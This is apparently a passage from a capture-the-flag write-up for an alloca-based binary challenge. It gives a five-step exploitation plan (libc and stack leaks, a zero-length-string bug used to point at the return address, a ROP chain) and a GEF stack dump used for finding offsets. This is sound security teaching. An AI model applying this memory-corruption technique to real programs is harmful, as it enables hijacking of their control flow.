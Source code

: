 1. Leak the location of libc.
2. Leak the location of the stack, then compute the location of the return address on the stack.
3. Use the zero-length string vuln (see above) to overwrite a pointer to a string and have it point to the return address on the stack.
4. Write out a ROP chain.
5. Profit.


### Getting offsets with GDB/GEF

If you want to read the code and compute all of this mathematically, then go for it, but for these `alloca` challenges I find it easier to just use GDB/GEF and look at the stack myself:

```
gef➤  telescope 40
0x00007fffffffe280│+0x0000: 0x0000000000000000	 ← $rsp
0x00007fffffffe288│+0x0008: 0x000055555555560b  →  <main+385> mov eax, DWORD PTR [rbp-0xdc]
0x00007fffffffe290│+0x0010: 0x0000550a68616c62 ("blah\nU"?)	 ← $rax, $rdi
0x00007fffffffe298│+0x0018: 0x00007ffff7e4476a  →  <puts+378> cmp eax, 0xffffffff
0x00007fffffffe2a0│+0x0020: 0x0000000000000000
0x00007fffffffe2a8│+0x0028: 0x00007fffffffe3b0  →  0x00005555555557b0  →  <__libc_csu_init+0> push r15
0x00007fffffffe2b0│+0x0030: 0x0000555555555100  →  <_start+0> xor ebp, ebp
0x00007fffffffe2b8│+0x0038: 0x0000000000000000
0x00007fffffffe2c0│+0x0040: 0x0000000000000000
0x00007fffffffe2c8│+0x0048: 0x000055555555560b  →  <main+385> mov eax, DWORD PTR [rbp-0xdc]
0x00007fffffffe2d0│+0x0050: 0x0000000000000000
0x00007fffffffe2d8│+0x0058: 0x0000000400000000
0x00007fffffffe2e0│+0x0060: 0xfffffffc0000002c (","?)
0x00007fffffffe2e8│+0x0068: 0x0000000000000000
0x00007fffffffe2f0│+0x0070: 0x0000000000000000
0x00007fffffffe2f8│+0x0078: 0x0000000000000000
0x00007fffffffe300│+0x0080: 0x0000000000000000
0x00007fffffffe308│+0x0088: 0x0000000000000000
0x00007fffffffe310│+0x0090: 0x0000000000000000
0x00007fffffffe318│+0x0098: 0x0000000000000000
0x00007fffffffe320│+0x00a0: 0x00007fffffffe290  →  0x0000550a68616c62 ("blah\nU"?)
0x00007fffffffe328│+0x00a8: 0x00007fffffffe280  →  0x0000000000000000
0x00007fffffffe330│+0x00b0: 0x0000000000000000
0x00007fffffffe338│+0x00b8: 0x0000000000000000
0x00007fffffffe340│+0x00c0: 0x0000000000000000
0x00007fffffffe348│+0x00c8: 0x0000000000000000
0x00007fffffffe350│+0x00d0: 0x0000000000000000
0x00007fffffffe358│+0x00d8: 0x0000000000000000
0x00007fffffffe360│+0x00e0: 0x0000000000000000
0x00007fffffffe368│+0x00e8: 0x0000000000000000
0x00007fffffffe370│+0x00f0: 0x0000000000000000
0x00007fffffffe378│+0x00f8: 0x0000000000000000
0x00007fffffffe380│+0x0100: 0x0000000000000000
0x00007fffffffe388│+0x0108: 0x0000000000000000
0x00007fffffffe390│+0x0110: 0x0000000000000000
0x00007fffffffe398│+0x0118: 0x0000000000000000
0x00007fffffffe3a0│+0x0120: 0x00007fffffffe4a0  →  0x0000000000000001
0x00007fffffffe3a8│+0x0128: 0x7c84ce9d856c3600
0x00007fffffffe3b0│+0x0130: 0x00005555555557b0  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe3b8│+0x0138: 0x00007ffff7df4d0a  →  <__libc_start_main+234> mov edi, eax
```
